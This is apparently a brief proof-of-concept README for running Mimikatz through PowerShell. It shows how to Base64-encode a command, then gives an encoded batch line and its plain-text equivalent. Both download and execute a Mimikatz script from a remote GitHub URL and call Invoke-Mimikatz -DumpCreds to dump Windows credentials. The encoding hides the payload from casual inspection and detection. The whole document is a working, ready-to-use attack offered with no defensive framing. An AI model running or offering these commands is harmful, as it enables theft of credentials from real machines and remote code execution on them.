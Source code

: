 # poc mimikatz 

## converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

## running the encoded command with powershell
powershell.exe -encoded $Encoded

## encoded.bat
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAAIAA9ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsAIAA=


## not encode
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m
